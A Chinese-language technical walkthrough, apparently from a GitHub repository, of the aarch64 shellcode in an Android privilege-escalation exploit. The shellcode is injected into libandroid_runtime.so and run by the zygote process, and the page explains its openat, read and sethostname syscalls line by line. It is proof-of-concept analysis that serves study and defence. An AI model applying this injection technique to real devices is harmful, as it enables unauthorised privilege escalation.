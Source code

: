 5 根据 Android.mk 编译可执行文件


## shellcode.s 

下面简单看一下 shellcode.s 汇编,不感兴趣可以略过

- shellcode.s 本身很简单: 读取文件 “/proc/self/attr/current” ，然后将读取的内容作为参数调用 sethostname 函数，从而更改系统的 hostname

- 因为普通 app 没有权限调用系统函数 'sethostname', 本 exploit 通过注入 shellcode.s 到 libandroid_runtime.so, 然后触发 zygote 进程执行 shellcode.s 达到越权执行的目的

```c
// open file
_start:
mov x0, #-100
adrp x1, _start
// NOTE: We are changing the page-relative alignment of the shellcode, so normal
// aarch64 RIP-relative addressing doesn't work.
add x1, x1, attr_path-file_start
mov x2, #0
mov x8, #0x38
svc #0

attr_path:
.ascii "/proc/self/attr/current\0"
```

第一段汇编作用是 open 文件 "/proc/self/attr/current", #0x38 是系统调用号，对应系统调用 __NR_openat (系统调用号定义： include/uapi/asm-generic/unistd.h), 将 0x38 放入 x8 寄存器，svc #0 指令触发软中断，进入内核系统调用, 根据 openat 函数的定义, x1 寄存器存放要打开的文件路径的地址, x0 和 x2 这里忽略.

这段汇编执行后，x0寄存器存放返回值，即打开文件的 fd


```c
// read from file
sub sp, sp, #128
mov x1, sp
mov x2, #128
mov x8, #0x3f
svc #0
```

第二段汇编执行 read 系统调用，读取 128 字节放入栈, #0x3f 对应系统调用 read, x0 存放要读取文件的 fd, x1 是栈顶指针 sp, 在此之前，sp 被移动了#128 字节，相当于一个 128 字节的栈数组作为 buf传给 read 函数第二个参数, x2 是要读取的长度, 这里是 128

这段汇编执行后, sp 指向的位置存放文件 '/proc/self/attr/current' 的内容


```c
// shove file contents into hostname
mov x1, x0
mov x0, sp
mov x8, #0xa1
svc #0
```
第三段汇编执行 sethostname 系统调用, #0xa1 对应系统调用 sethostname, x0 即要更新的域名字符串, 这里放入 sp 指针， 即将上一步 read 函数读取的 buf 值作为 sethostname 的参数 name, x1 是长度, 这里值是上一步read 的返回值
